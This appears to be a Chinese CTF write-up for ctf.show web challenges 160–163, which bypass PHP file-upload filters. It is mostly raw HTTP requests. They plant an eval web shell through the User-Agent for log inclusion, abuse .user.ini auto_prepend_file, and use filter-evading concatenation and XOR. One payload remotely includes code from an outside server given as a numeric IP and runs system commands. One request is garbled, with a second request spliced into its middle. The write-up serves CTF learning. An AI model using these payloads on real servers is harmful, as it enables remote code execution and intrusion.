Referer: https://d2a29abe-04fe-4e55-ae31-596f4d4ea6dd.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryXKUay7fvIGR1uM2m
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/png

<?=include"/var/lo"."g/nginx/access.lo"."g"?>
------WebKitFormBoundaryXKUay7fvIGR1uM2m--

```

这里的话可以用字符串拼接的方法去绕过log

然后发包后转向访问文件查看有没有日志文件的内容包含进来



同时可以看到有UA头的内容的

那我们试着在UA头包含一句话木马

```
POST /upload.php HTTP/1.1
Host: 2597b78b-bf1d-4ff0-b3e9-5a0de5f3f85d.challenge.ctf.show
Content-Length: 223
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: <?php eval($_POST['cmd']);?>
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0uB1Gssf46F3rihN
Sec-Ch-Ua-Mobile: ?0
Origin: https://2597b78b-bf1d-4ff0-b3e9-5a0de5f3f85d.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://2597b78b-bf1d-4ff0-b3e9-5a0de5f3f85d.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundary0uB1Gssf46F3rihN
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/png

<?=include"/var/lo"."g/nginx/access.lo"."g"?>
------WebKitFormBoundary0uB1Gssf46F3rihN--

```

然后访问连马就行了

# web161

## #文件头检测

这次上传.user.ini的时候出现了文件类型不合规p，不过我猜又是对文件内容的检查，试一下添加文件头

```
POST /upload.php HTTP/1.1
Host: 50dc3f13-cc45-4c5d-b558-00dce06c2aed.challenge.ctf.show
Content-Length: 209
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydyi24Ek00bnae0bD
Sec-Ch-Ua-Mobile: ?0
Origin: https://50dc3f13-cc45-4c5d-b558-00dce06c2aed.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://50dc3f13-cc45-4c5d-b558-00dce06c2aed.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundarydyi24Ek00bnae0bD
Content-Disposition: form-data; name="file"; filename=".user.ini"
Content-Type: image/png

GIF89a
auto_prepend_file=1.png
------WebKitFormBoundarydyi24Ek00bnae0bD--

```

成功上传，那日志文件包含加个文件头就行

```
POST /upload.php HTTP/1.1
Host: 50dc3f13-cc45-4c5d-b558-00dce06c2aed.challenge.ctf.show
Content-Length: 231
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36<?php%20eval($_POST['cmd']);?>
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6ADWUFyYgWfKHTCY
Sec-Ch-Ua-Mobile: ?0
Origin: https://50dc3f13-cc45-4c5d-b558-00dce06c2aed.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://50dc3f13-cc45-4c5d-b558-00dce06c2aed.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundary6ADWUFyYgWfKHTCY
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/png

GIF89a
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
------WebKitFormBoundary6ADWUFyYgWfKHTCY--

```

这次的源码不太一样

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-24 19:34:52
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-26 15:49:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];
    $filesize = ($_FILES["file"]["size"] / 1024);
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(stripos($content, "php")===FALSE && check($content) && getimagesize($_FILES["file"]["tmp_name"])){
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>2,"msg"=>"文件类型不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}
function check($str){
    return !preg_match('/php|\{|\[|\;|log|\(| |\`/i', $str);
}
echo json_encode($ret);

```

使用 `getimagesize()` 来确保上传的文件是图片文件，通过解析文件的头部信息来确定文件是否为有效的图像文件

# web162

## #过滤了小数点

上传.user.ini的时候就受阻了，伪造了文件头也一样，看看是不是在这里过滤了什么

测了一下发现过滤了小数点，那我们指定的文件就不加小数点就行了，反正都要被当成php文件包含进去，关键在于如何绕过木马中的小数点

这里的话依旧使用日志包含

```
POST /upload.php HTTP/1.1
Host: fe1b607e-5063-4a37-b0d2-c72875564f04.challenge.ctf.show
Content-Length: 300
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA8nhZc4rf82KOfXq
Sec-Ch-Ua-Mobile: ?0
Origin: https://fe1b607e-5063-4a37-b0d2-c72875564f04.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: corsPOST /upload.php HTTP/1.1
Host: 026c91d8-ea21-495f-8792-cbcc72ba4665.challenge.ctf.show
Content-Length: 300
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: <?php eval($_POST['cmd']);?>
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryppBxOKqhhE8RaLUp
Sec-Ch-Ua-Mobile: ?0
Origin: https://026c91d8-ea21-495f-8792-cbcc72ba4665.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://026c91d8-ea21-495f-8792-cbcc72ba4665.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryppBxOKqhhE8RaLUp
Content-Disposition: form-data; name="file"; filename="txt"
Content-Type: image/png

GIF89a
<?=$a="l"?><?=$b="o"?><?=$c="g"?><?=$d="]"?><?=$e="s"?><?=$f=$d^$e?>
<?=include"/var/$a$b$c/nginx/access$f$a$b$c"?>
------WebKitFormBoundaryppBxOKqhhE8RaLUp--

Sec-Fetch-Dest: empty
Referer: https://fe1b607e-5063-4a37-b0d2-c72875564f04.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryA8nhZc4rf82KOfXq
Content-Disposition: form-data; name="file"; filename="png"
Content-Type: image/png

GIF89a
<?=$a="l"?><?=$b="o"?><?=$c="g"?><?=$d="]"?><?=$e="s"?><?=$f=$d^$e?>
<?=include"/var/$a$b$c/nginx/access$f$a$b$c"?>
------WebKitFormBoundaryA8nhZc4rf82KOfXq--

```

访问后就可以看到日志文件了，UA头写马就行了

这里也可以使用远程文件包含，上传.user.ini,需要把ip转换为数字，我们试一下

```
POST /upload.php HTTP/1.1
Host: a8fb8d01-36e2-48fc-bd78-50edeedfed2c.challenge.ctf.show
Content-Length: 220
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary89S7jEhpfrVMyFIj
Sec-Ch-Ua-Mobile: ?0
Origin: https://a8fb8d01-36e2-48fc-bd78-50edeedfed2c.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://a8fb8d01-36e2-48fc-bd78-50edeedfed2c.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundary89S7jEhpfrVMyFIj
Content-Disposition: form-data; name="file"; filename="png"
Content-Type: image/png

GIF89a
<?=include"http://2632902999/text"?>
------WebKitFormBoundary89S7jEhpfrVMyFIj--

```

然后在云服务器的web目录中设置文件text

```
<?php system('ls ..');?>
```

查看上级目录的文件，保存发包后访问被包含的文件/upload/index.php




可以看到出来了

因为这里是远程包含的，所以直接把text改一下就行，不需要重复发包

这里还可以用session文件包含

首先还是上传.user.ini文件去包含我们要创建的session文件

```
GIF89a
auto_append_file=/tmp/sess_xxx
```

xxx为我们传入的PHPSESSID的值

然后构造一个上传session文件的包传入**SESSION_UPLOAD_PROGRESS**并修改Cookie的值为PHPSESSI=xxx，发包后访问upload/index.php就可以看到包含文件了

# web163

这题的话过滤是一样的，问题在于这题上传没有扩展名的文件会直接删除，系统会对文件进行检查，这就需要进行条件竞争了

其实没什么区别，就是用intruder模块持续发包就行，但是好像发现.user.ini文件不会删除，那就好做了

上传包

```
POST /upload.php HTTP/1.1
Host: ec71d5e9-8300-4c1c-81b8-3ce7b3da64a2.challenge.ctf.show
Content-Length: 230
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfI7ELFWERrgLQD22
Sec-Ch-Ua-Mobile: ?0
Origin: https://ec71d5e9-8300-4c1c-81b8-3ce7b3da64a2.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ec71d5e9-8300-4c1c-81b8-3ce7b3da64a2.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryfI7ELFWERrgLQD22
Content-Disposition: form-data; name="file"; filename=".user.ini"
Content-Type: image/png

GIF89a
auto_prepend_file=http://2632902999/text
------WebKitFormBoundaryfI7ELFWERrgLQD22--

```

如果正常传的话web163 与 web162 略微有点区别，web163 在上传 `指定包含文件`的时候，会立即删除，这里我们需要进行竞争。爆破一直发送。
